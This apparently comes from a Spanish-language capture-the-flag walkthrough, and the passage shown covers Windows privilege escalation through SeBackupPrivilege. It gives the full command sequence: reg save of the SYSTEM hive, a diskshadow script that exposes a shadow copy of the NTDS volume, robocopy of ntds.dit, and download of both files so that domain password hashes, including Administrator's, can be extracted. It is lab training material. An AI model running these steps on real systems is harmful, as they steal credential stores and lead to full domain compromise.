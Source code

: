 No podemos todavia leer el **root.txt**, pero tiene un privilegio muy interesante que es el privilegio **SeBackupPrivilege**.
Teniendo este privilegio, podriamos hacer una copia (backup) de seguridad de elemento del systema como el **NTDS** que nos permitirian
recuperar los hashes de los usuarios del systema, entre ellos el usuario Administrator.

```bash
cd C:\
mkdir Temp
cd Temp
reg save HKLM\system system
```

Aqui hacemos una copia del systema que es necesario para posteriormente dumpear los hashes NTLM del fichero `ntds.dit`. Intentamos copiar 
el fichero `ntds.dit`

```bash
copy C:\Windows\NTDS\ntds.dit ntds.dit
#Output
PermissionDenied!
```

Teniendo este privilegio y siguiendo la guia de la web [pentestlab](https://pentestlab.blog/tag/diskshadow/) podemos tirando de robocopy en vez de
copy, copiarnos este fichero. Creamos un fichero llamado example.txt y le ponemos los comandos siguientes.

```bash
set context persistent nowriters 
add volume c: alias savialias 
create 
expose %savialias% z:
```

> [ ! ] NOTAS: Hay que tener cuidado con estos ficheros que enviamos en maquinas windows de siempre poner un espacio al final de cada linia para evitar problemas

```bash
dos2unix example.txt
```

y desde la maquina victima, subimos el fichero

```bash
upload example.txt
diskshadow.exe /s example.txt
```

Ya podemos ver que en Z:\ hay el mismo contenido que en C:\ y si tratamos de copiar el fichero ntds.dit con el comando `copy z:\Windows\NTDS\ntds.dit ntds.dit` 
nos arastra el mismo error. Pero usando del comando robocopy esto funcciona sin problemas.

```bash
robocopy z:\Windows\NTDS . ntds.dit
download ntds.dit
download system
```

